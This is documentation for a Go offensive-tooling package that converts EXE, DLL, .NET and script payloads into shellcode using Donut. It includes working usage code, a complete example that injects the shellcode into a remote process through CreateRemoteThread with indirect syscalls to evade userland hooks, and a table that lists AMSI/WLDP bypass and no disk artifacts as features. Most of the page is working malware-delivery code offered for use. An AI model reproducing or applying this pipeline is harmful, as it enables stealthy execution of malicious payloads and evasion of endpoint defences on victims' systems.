


# PE-to-Shellcode Conversion (Donut)

[<- Back to PE Overview](README.md)

> **MITRE ATT&CK:** T1055.001 -- Process Injection: DLL Injection | **Detection:** Medium -- Donut loader stub detectable by memory scanners

---

## Primer

When you want to run a program inside another process, the operating system normally insists the program live on disk as a `.exe` or `.dll` file. What if you could turn that program into raw bytes -- shellcode -- and inject it anywhere you like, with no file on disk?

**Think of it like converting a hardback book into an audiobook.** The content (the program logic) is exactly the same, but the format is now something you can pour into any container. Donut wraps your EXE or DLL with a small loader stub that bootstraps the PE headers in memory, relocates the code, and calls the entry point -- all from a flat byte buffer that can be passed to any injection primitive.

This is especially powerful because it works not just for native EXEs and DLLs but also for .NET assemblies, VBScript, JScript, and XSL -- any of those can be reduced to position-independent shellcode that runs with no managed runtime on disk.

---

## How It Works



### Shellcode Structure



### Input Format Matrix

| Format | ModuleType | Class required | Method required |
|--------|-----------|----------------|-----------------|
| Native EXE | `ModuleEXE` | No | No |
| Native DLL | `ModuleDLL` | No | Yes (export name) |
| .NET EXE | `ModuleNetEXE` | No | No |
| .NET DLL | `ModuleNetDLL` | Yes | Yes |
| VBScript | `ModuleVBS` | No | No |
| JScript | `ModuleJS` | No | No |
| XSL | `ModuleXSL` | No | No |

---

## Usage

### Convert a Native EXE (simplest case)

```go
import "github.com/oioio-space/maldev/pe/srdi"

cfg := srdi.DefaultConfig() // ArchX64, ModuleEXE, Bypass=3
shellcode, err := srdi.ConvertFile("cmd.exe", cfg)
if err != nil {
    log.Fatal(err)
}
// shellcode is now position-independent; cmd.exe (340 KB) → ~367 KB shellcode
```

### Convert a Native DLL with Specific Export

```go
cfg := srdi.DefaultConfig()
cfg.Type = srdi.ModuleDLL
cfg.Method = "ReflectiveLoader" // or any exported function name

shellcode, err := srdi.ConvertDLL("payload.dll", cfg)
if err != nil {
    log.Fatal(err)
}
```

### Convert a .NET Assembly

```go
cfg := &srdi.Config{
    Arch:   srdi.ArchX64,
    Type:   srdi.ModuleNetDLL,
    Class:  "MyNamespace.MyClass",
    Method: "Execute",
    Bypass: 3, // continue if AMSI/WLDP patch fails
}

shellcode, err := srdi.ConvertFile("payload.dll", cfg)
if err != nil {
    log.Fatal(err)
}
```

### Convert Raw Bytes (in-memory PE)

```go
// Type must be set explicitly — no file extension to detect from
cfg := &srdi.Config{
    Arch:   srdi.ArchX64,
    Type:   srdi.ModuleEXE,
    Bypass: 3,
}

shellcode, err := srdi.ConvertBytes(peData, cfg)
if err != nil {
    log.Fatal(err)
}
```

### Dual-Mode Shellcode (x86 + x64)

```go
cfg := srdi.DefaultConfig()
cfg.Arch = srdi.ArchX84 // runs in both 32-bit and 64-bit processes

shellcode, err := srdi.ConvertFile("payload.exe", cfg)
if err != nil {
    log.Fatal(err)
}
```

---

## Combined Example

Full pipeline: convert an EXE to shellcode, then inject it into a remote process via `CreateRemoteThread`.

```go
package main

import (
    "log"
    "os"

    "github.com/oioio-space/maldev/inject"
    "github.com/oioio-space/maldev/pe/srdi"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    // Step 1: Convert target EXE to position-independent shellcode
    cfg := srdi.DefaultConfig()
    shellcode, err := srdi.ConvertFile("payload.exe", cfg)
    if err != nil {
        log.Fatal("srdi:", err)
    }

    // Step 2: Pick the target PID
    pid := 1234 // replace with real target PID

    // Step 3: Configure the injector with indirect syscalls so every NT
    // call bypasses userland hooks. The caller is built lazily from
    // SyscallMethod inside the injector.
    icfg := inject.DefaultWindowsConfig(inject.MethodCreateRemoteThread, pid)
    icfg.SyscallMethod = wsyscall.MethodIndirect

    // Step 4: Inject shellcode into target process
    injector, err := inject.NewWindowsInjector(icfg)
    if err != nil {
        log.Fatal("inject:", err)
    }
    if err := injector.Inject(shellcode); err != nil {
        log.Fatal("inject:", err)
    }

    os.Exit(0)
}
```

---

## Advantages & Limitations

| | Detail |
|---|---|
| **No disk artifacts** | Payload never touches disk in the target process |
| **7 input formats** | Native EXE, DLL, .NET EXE/DLL, VBScript, JScript, XSL |
| **Built-in AMSI/WLDP bypass** | Loader stub patches both before invoking the payload |
| **Dual architecture** | Single shellcode blob that runs in x86 or x64 processes |
| **Pure Go, no CGO** | Cross-compiles from Linux to generate Windows shellcode |
| **Configurable entry point** | DLL export, .NET class/method, or default entry |
| **Size overhead** | Shellcode is larger than input: cmd.exe 340 KB → 367 KB |
| **Detectable stub** | Donut loader stub has known signatures; memory scanners flag it |
| **RWX pages** | Mini PE loader writes and then executes -- RWX allocation is suspicious |
| **No obfuscation** | Stub bytes are not encrypted by default; static detection is possible |
| **Windows payloads only** | Generates shellcode for Windows targets; generation itself is cross-platform |

---

## API Reference

### Types

```go
// Arch is the target architecture for shellcode generation.
type Arch int

const (
    ArchX32 Arch = iota // 32-bit only
    ArchX64             // 64-bit only (default)
    ArchX84             // dual-mode: runs in both 32-bit and 64-bit processes
)

// ModuleType is the format of the input binary.
type ModuleType int

const (
    ModuleNetDLL ModuleType = 1 // .NET DLL
    ModuleNetEXE ModuleType = 2 // .NET EXE
    ModuleDLL    ModuleType = 3 // Native DLL
    ModuleEXE    ModuleType = 4 // Native EXE (default)
    ModuleVBS    ModuleType = 5 // VBScript
    ModuleJS     ModuleType = 6 // JScript
    ModuleXSL    ModuleType = 7 // XSL
)

// Config controls shellcode generation.
type Config struct {
    Arch       Arch       // target architecture (default: ArchX64)
    Type       ModuleType // input format (0 = auto-detect by extension in ConvertFile)
    Class      string     // .NET class name (required for ModuleNetDLL)
    Method     string     // .NET method or native DLL export to call
    Parameters string     // command-line arguments passed to the payload
    Bypass     int        // AMSI/WLDP bypass: 1=skip, 2=abort on fail, 3=continue on fail
    Thread     bool       // run entry point in a new thread
}
```

### Functions

```go
// DefaultConfig returns a ready-to-use configuration:
// ArchX64, ModuleEXE, Bypass=3 (continue on AMSI/WLDP fail).
func DefaultConfig() *Config

// ConvertFile converts a PE/DLL/.NET/VBS/JS/XSL file to shellcode.
// Auto-detects the module type from the file extension.
func ConvertFile(path string, cfg *Config) ([]byte, error)

// ConvertBytes converts a raw in-memory PE/DLL to shellcode.
// cfg.Type must be set explicitly — no extension available for detection.
func ConvertBytes(data []byte, cfg *Config) ([]byte, error)

// ConvertDLL converts a DLL file to shellcode.
// Shorthand for ConvertFile with cfg.Type = ModuleDLL.
func ConvertDLL(dllPath string, cfg *Config) ([]byte, error)

// ConvertDLLBytes converts raw DLL bytes to shellcode.
// Shorthand for ConvertBytes with cfg.Type = ModuleDLL.
func ConvertDLLBytes(dllBytes []byte, cfg *Config) ([]byte, error)
```

### Credits

- [Binject/go-donut](https://github.com/Binject/go-donut) — pure-Go Donut port used by this package
- [TheWover/donut](https://github.com/TheWover/donut) — original C implementation and research
- [monoxgas/sRDI](https://github.com/monoxgas/sRDI) — shellcode reflective DLL injection technique that inspired Donut
